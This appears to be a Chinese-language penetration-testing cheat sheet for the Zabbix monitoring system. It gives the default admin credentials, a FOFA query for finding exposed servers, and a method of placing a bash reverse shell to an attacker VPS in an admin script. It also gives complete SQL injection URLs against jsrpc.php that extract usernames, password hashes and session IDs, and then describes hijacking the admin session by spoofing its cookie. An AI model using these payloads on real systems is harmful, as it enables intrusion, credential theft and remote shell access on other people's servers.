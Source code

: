 ## 应用简介

![](logo.png)

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。

可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用

官方网站：https://www.zabbix.com/cn

默认口令：`Admin/zabbix`

## 相关资产

FOFA

```http
app="ZABBIX-监控系统" 
```

## [弱口令]-后台Getshell

在管理-脚本-创建脚本写入反弹`shell`命令

```bash
bash -i >& /dev/tcp/VPS的IP/6666 0>&1
```

在监测-问题处打开一个主机，然后找到刚刚创建的脚本执行

## SQL注入

```http
2.2.x
3.0.0-3.0.3
```

攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限

**漏洞利用**

在攻击机访问的zabbix的地址后面加上如下url：

```http
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

输出结果，若包含：`You have an error in your SQL syntax`;表示漏洞存在

- 获取用户名

```http
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

- 获取密码

```http
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

- 获取sessionid

```http
http://IP/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

用户名密码及sessionid值都已得到，可以先对密码md5解密，解密成功可直接进入后台。

解密不成功可以用sessionid值进行Cookie欺骗替换zbx_sessionid即可成功以administrator登陆